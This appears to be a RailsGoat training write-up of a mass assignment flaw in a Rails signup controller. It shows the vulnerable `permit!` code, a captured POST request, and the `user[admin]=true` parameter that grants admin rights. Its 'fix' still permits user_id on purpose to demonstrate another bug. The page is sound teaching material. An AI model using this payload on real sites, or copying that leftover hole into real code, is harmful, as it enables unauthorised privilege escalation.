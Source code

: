 # Description

The application allows the admin attribute of a User model to be set through a mass assignment call. This vulnerability exists because a developer has indicated it is acceptable for any parameters to be pushed into the model instantiation (clarified in the code below). Any time a developer decides to use the `permit!` method on parameters, this introduces a mass assignment issue. In this case, because the User model has an admin attribute, it introduces vertical privilege escalation vulnerability.

# Bug

The bug is introduced within app/controllers/users_controller.rb file:

```ruby
def create
  user = User.new(user_params)
```

```ruby
def user_params
  params.require(:user).permit!
end
```

Any attribute (parameter) setting can be used during a mass assignment call when `permit!` is used. What this means is that conceptually, the following is allowed:

```ruby
# Note the string "true"/"false" or 1/0, etc. can be added to specify the boolean attribute...
# is true or false thanks to ActiveRecord
User.new(
  :email => "email@email.com",
  :admin => "true",
  :password => "h4xx0r",
  :first_name => "Captain",
  :last_name => "Crunch"
)
```

# Solution

### Mass Assignment ATTACK:

Through the use of an intercepting proxy, we are able to capture our form submission after entering our information on the sign up page. The request looks like this...

    POST /users HTTP/1.1
    Host: railsgoat.dev
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.8; rv:19.0) Gecko/20100101 Firefox/19.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://railsgoat.dev/signup
    Cookie: _railsgoat_session=[redacted]
    Connection: keep-alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 248
    
    utf8=â&authenticity_token=GXhLKKhfBXdFx5i6iqHEd5E32Kebn1+G35eA87RW1tU=&user[email]=test@test.com&user[first_name]=test&user[last_name]=test&user[password]=testtest&user[password_confirmation]=testtest&commit=Submit

...and the attack is quite simple. Append a parameter to the body of this POST request that specifies the admin value is true.

    utf8=â&authenticity_token=GXhLKKhfBXdFx5i6iqHEd5E32Kebn1+G35eA87RW1tU=&user[email]=test@test.com&user[first_name]=test&user[last_name]=test&user[password]=testtest&user[password_confirmation]=testtest&commit=Submit&user[admin]=true

So when the request is received by the create method within the user controller (code shown below), the admin attribute is set to true upon user creation.

```ruby
def create
  user = User.new(user_params)
  user.build_benefits_data
  if user.save
    session[:user_id] = user.user_id
    redirect_to home_dashboard_index_path
  else
    @user = user
    flash[:error] = user.errors.full_messages.to_sentence
    redirect_to :signup
  end
end
```

### Mass Assignment SOLUTION:

The solution is fairly simple, remove the admin attribute from the attr_accessible method. The following code shows what we mean:

```ruby
# Note that the permit! method has been removed, and the correct syntax is used
# Also note that normally we wouldn't need user_id to be passed in but we've done that
# ...to demonstrate another vulnerability (guess you could call that a hint, huh?)
            
def user_params
  params.require(:user).permit(:email, :first_name, :last_name, :user_id, :password, :password_confirmation)
end
```ruby

# Hint

Did you provide enough parameters when you created your account? 